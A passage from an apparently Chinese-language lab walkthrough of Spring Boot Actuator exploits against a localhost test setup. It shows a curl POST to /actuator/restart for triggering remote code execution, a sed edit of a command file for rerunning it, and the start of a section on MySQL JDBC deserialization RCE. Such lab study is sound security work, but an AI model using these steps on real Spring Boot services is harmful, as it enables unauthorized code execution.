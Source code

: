 成功设置。

**(2) 触发 RCE**

```plain
curl -H "content-Type:  application/json" -X POST http://localhost:9096/actuator/restart
```

过程出现了如下错误，执行完一次，需要新创建个其他函数，或者先删除掉。:

[![](assets/1703152930-61211532f47382bd0c7bfc146194ed0c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210620111948-5e4eaaf0-d176-1.png)

```plain
sed -i "" s/T5/T6/g /tmp/cmd.json
```

同时要注意，命令执行 linux 和 window 的区别。如图所示，可以成功 RCE

[![](assets/1703152930-c6b6c96ab816717bda24db5a9fb6518d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210620112006-695fb0a6-d176-1.png)

- - -

#### **4.mysql jdbc deserialization RCE**

```plain
cd springboot-mysql-jdbc-rce
mvn spring-boot:run
```

运行之前，需要配置一下数据库连接，要不然运行会失败的，这里我启用了我本地的 mysql。

[![](assets/1703152930-53aa639c82c25c6e11772a60a378c3c2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210620112019-70ffb00e-d176-1.png)
